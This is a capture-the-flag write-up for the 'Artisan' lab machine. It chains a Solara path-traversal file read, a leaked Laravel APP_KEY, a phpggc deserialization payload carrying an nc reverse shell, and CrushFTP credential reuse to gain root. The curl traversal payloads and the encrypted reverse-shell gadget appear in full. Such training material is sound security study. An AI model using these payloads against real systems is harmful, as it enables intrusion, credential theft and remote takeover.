# INTRO
| Machine Name | OS |Difficulty| Author |Link |
|--- |--- |---|--|--- 
| Artisan | Linux|Medium| [mcsam](https://themcsam.github.io/) |https://hackuten.fr/machines/13

Artisan is a medium rated machine on [Hackuten](https://hackuten.fr/). It starts with two web services; `Solara, a monitoring system`  and `NoteBolt` a system for taking note.
The version of solara running was vulnerable to a Local File Inclusion under the [CVE-2024-39903](https://sunrisexu.github.io/file-overwrite/2024/07/09/local-file-inclusion-in-solara.html).  The NoteBolt app was also having a flaw found in laravels `Encrypter Class` which makes `encryption` and `decryption` using the applications `APP_KEY` secret. This [blog from synacktiv](https://www.synacktiv.com/en/publications/laravel-appkey-leakage-analysis). Combinding the two vulnerabilites, we can get `RCE` and get a shell on the system. Inside the system there is `CrushFTP` running internally on port 8080 as `root` all we need to do is to forward the port so we can access it on our host system and exploit it to gain root on the `artisan` box. 




# INITIAL
>IP address ==> 10.10.10.2
## Nmap scan

```
	Nmap scan report for 10.10.10.2
	Host is up, received echo-reply ttl 63 (0.20s latency).
	Scanned at 2026-07-04 19:13:36 GMT for 95s
	Not shown: 65370 closed tcp ports (reset), 162 filtered tcp ports (no-response)
	Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
	PORT     STATE SERVICE        REASON
	22/tcp   open  ssh            syn-ack ttl 63
	8000/tcp open  http-alt       syn-ack ttl 63
	8765/tcp open  ultraseek-http syn-ack ttl 63

```

After the nmap scan, it is clearly seen that there are 3 ports opened `22` , `8000` , `8765`.  Port `8000` runs the NoteBold application and port `8765` runs solara.


_NoteBolt App on port 8000_


_Solara App on port 8765_

## Exploitation
### Solara
Starting with `Solara`. The vulnerability is a `LFI` when trying to view static file. From the [blog](https://sunrisexu.github.io/file-overwrite/2024/07/09/local-file-inclusion-in-solara.html) it is realised that when loading static files from the cdn endpoint, traversal payloads like `..%2f..%2f` can be used to traverse the file system and read system files because of how the path in the `get_data` function treats the incoming path from the `cdn` route 

>The get_data calls get_from_cache to lookup cached files, it concatenates path into base_cache_dir to get cached path directly and load the content afterwards. The path comes from the <path:path> part of cdn route. In this case, when path is ..%2f..%2f..%2f..%2f..%2fetc%2fpasswd, attacks can use path traversal to read any files in local file system.

with this we can try requesting some files, and then use traversal payloads to try read internal files. On this box, i could not get `LFI` on `cdn` endpoint so i had to use different endpoint and still got the `LFI` to work .
```

	curl http://10.10.10.2:8765/static/nbextensions/anywidget/extension.js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
	
	root:x:0:0:root:/root:/bin/bash
	daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
	bin:x:2:2:bin:/bin:/usr/sbin/nologin
	sys:x:3:3:sys:/dev:/usr/sbin/nologin
	sync:x:4:65534:sync:/bin:/bin/sync
	games:x:5:60:games:/usr/games:/usr/sbin/nologin
	man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
	lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
	mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
	news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
	uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
	proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
	list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
	irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
	_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
	nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
	systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
	messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
	sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
	polkitd:x:997:997:polkit:/nonexistent:/usr/sbin/nologin
	app:x:1000:1000::/home/app:/bin/bash


```

### Notebolt
From here, the next is check `NoteBolt` has for us.


Just signed up to `NoteBolt` to see what it has for me. looks like i can create notes, browse Notes and Decrypt Notes. Creating Notes does not have or give us enough to get going, browsing Notes had some other vuln(IDOR) but was not really of help here. The Vector for this machine was `Note Decrypt`.

What it does according to my understanding of this box while playing it was; we provide an encrypted note to it, and it will be decrypted for us. Now from the [blog post](https://www.synacktiv.com/en/publications/laravel-appkey-leakage-analysis) it is noted that the encryption and decryption is done using the applications `APP_KEY` secret, This can also be seen in the Security Notice. Again it is said that we can get Command Execution. this is as a result of some serialization and deserilization done. Now we have new requirements



>To generate a serialization payload designed to run the bash command id on a Laravel based server, the phpggc tool was used.

A lil problem was that the php version required for this to work was not same as what i had. all i did was pull the exact php docker version and did the payload generation in docker



everything was done in docker. i had to download `phpggc` and transfere it to the docker instance


we still need the `APP_KEY` secret, but we can generate our payload down. anyways lets get out `APP_KEY`. The `APP_KEY` is mostly going to be found in the `.env` file found in the root of the application folder. The question is where is the application hosted on the server. 
Well laravel sometimes will throw some errors when you make certain request and if lucky you might get a hint or get some path disclosures. i am not sure if its about the configuration and setup of the application. 
### What did i do?
all i did was make a post request to an enpoint that only accepts `GET` and `DELETE`


_Used Developer Tools to change.png the request Method_

Now i have the path to the application `/var/www/html/NoteBolt`. This is where the solara LFI comes in handy.
```
curl http://10.10.10.2:8765/static/nbextensions/anywidget/extension.js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fvar/www/html/NoteBolt/.env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:<REDACTED>
APP_DEBUG=true
APP_URL=http://localhost

APP_LOCALE=en
APP_FALLBACK_LOCALE=en
APP_FAKER_LOCALE=en_US

APP_MAINTENANCE_DRIVER=file
# APP_MAINTENANCE_STORE=database

PHP_CLI_SERVER_WORKERS=4

BCRYPT_ROUNDS=12

LOG_CHANNEL=stack
LOG_STACK=single
LOG_DEPRECATIONS_CHANNEL=null
LOG_LEVEL=debug

__STRIPPED__
```

now that we have the `APP_KEY`. Lets continue to gaining  a shell

```
./phpggc Laravel/RCE13 system 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <REDACTED> 443 >/tmp/f' -b -f 
YToyOntpOjc7Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6MTp7czo5OiIAKgBldmVudHMiO086MzU6IklsbHVtaW5hdGVcRGF0YWJhc2VcRGF0YWJhc2VNYW5hZ2VyIjoyOntzOjY6IgAqAGFwcCI7YToxOntzOjY6ImNvbmZpZyI7YToyOntzOjE2OiJkYXRhYmFzZS5kZWZhdWx0IjtzOjY6InN5c3RlbSI7czoyMDoiZGF0YWJhc2UuY29u<REDACTED>o2OiJzeXN0ZW0iO2E6MTp7aTowO3M6NzI6InJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXxuYyAxMC4xMy4xMy42NiA0NDMgPi90bXAvZiI7fX19fXM6MTM6IgAqAGV4dGVuc2lvbnMiO2E6MTp7czo2OiJzeXN0ZW0iO3M6MTI6ImFycmF5X2ZpbHRlciI7fX19aTo3O2k6Nzt9
```

this is our encoded note, but we still need it encrypted before we can send it to our `NoteBolt` app. 

```
~/Documents/bin/python3 laravel_crypto_killer.py encrypt -k <APP_KEY> -v 'YToyOntpOjc7Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6MTp7czo5OiIAKgBldmVudHMiO086MzU6IklsbHVtaW5hdGVcRGF0YWJhc2VcRGF0YWJhc2VNYW5hZ2VyIjoyOntzOjY6IgAqAGFwcCI7YToxOntzOjY6ImNvbmZpZyI7YToyOntzOjE2Oi<REDACTED>hdWx0IjtzOjY6InN5c3RlbSI7czoyMDoiZGF0YWJhc2UuY29ubmVjdGlvbnMiO2E6MTp7czo2OiJzeXN0ZW0iO2E6MTp7aTowO3M6NzI6InJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXxuYyAxMC4xMy4xMy42NiA0NDMgPi90bXAvZiI7fX19fXM6MTM6IgAqAGV4dGVuc2lvbnMiO2E6MTp7czo2OiJzeXN0ZW0iO3M6MTI6ImFycmF5X2ZpbHRlciI7fX19aTo3O2k6Nzt9'
[+] Here is your laravel ciphered value, happy hacking mate!
eyJpdiI6ICJwN0xzOWRheHZ2aFgySzB2SFBIdlBBPT0iLCAidmFsdWUiOiAiNVVXQ3VMTHp6RDIxQWdYNUw0V0tZc1NSNWRPbEw4ZElWWlNjRVo1WE5PaW9MVlYwRzU5VTBCODZoTSszWFM0TVQ0NHR6aC93OWt3MGdjRmV3NnA2Uy9YM05XL3pkYjdjQytVd1BBZzhQa2p5QnpXWURMREQyeXF1ejNaYm15MmFONFU4T1h0WUk5K2IxeEJGVTZNVHY4M2hKb0hkR2p4N24rbDRMeGJEQU9XMDBWSyt0aTNoZUtkdlpPSXFRMUNTL0RldDhYcnNlUHFBcVRic0N2S1k3Qy8v<REDACTED>yQytMUzBLUDE4enVTQkVmWVUvMmVFR2hqNWhQWVIwMVB1VmUzVU5FS2pwS0lkdFNKRFBVNFF1Z3M2dVN5cExOUE9uVmY5dU9Lc2h2aE9iVG9VeUd1aEQ5RnBEUkw3dGZEZjlRL1FOS1cxbk53bUVIdE04aHNHUzgrYitnTEtaRHBxWlFmaDZ4RnhyYXlQM2RaeFhCVVZIQmt2MTVPS2FlUStBMGZtTUdsTUprVk81VE9oV0V4ZWo4eDM1Uk9DUGpjNXdLVGtuTC93RjJ6RlovWW44ODNaSlphb3p1VTlXSkFCb1lqdjQ2SEZocVJ4NGdyT1Y3eTNFWFdlZUsxU2p5N2VUNS93MWwzalBzb3hrNmZJd2dxY3AwPSIsICJtYWMiOiAiNjE2YTQ5ZWEwN2M4Mzg4YmUwN2Y0NTk0MjY5NmY1OTA1NThjN2E2M2JiMjk3ZDdiNDNmMDMzNDM0NTk0MTA5NSIsICJ0YWciOiAiIn0=

```

now we can feed the output to our `NoteBolt` app, But lets have our listener ready


that is our note sent, and now we have a shell.



# Privesc

For Privesc, there is an application `CrushFTP` running internally, what i did was to forward the application out so i can acces it from my host pc



## checking running services/processes


its clear that `CrushFTP` has been executed by root and that process is running. but on which port?


_visiting CrushFTP logs in /var/opt/CrushFTP11/CrushFTP.log_

From the log, its clear that the crshFTP is or might be running on port 8080. lets check the open ports on this system 



so its actually runing. now the next thing is to forward the port so we can access it on our local system.

While there are numerous ways to do that. I used the ssh local port forward method. *Lets See*




_wrote my public key to authorized_keys file in the .ssh dir_


_Now have a session with ssh and also forwarded the port 8080 to my local host_

Lets see if we have `CrushFTP`


_Got CrushFTP on our local system_

now that we have the crushftp forwarded out, all needed now is credential. I did spend alot of time trying to get the credentials as well as tried a couple of vulnerabilities in crushFTP but none of them worked till i found the creds in one of the files in CrushFTP11 directory


_username and password found_

Now we can login to the crushadmin application. This user has files stored in `/` the root of the linux file system there is are a couple of things we can do. 



### What i did


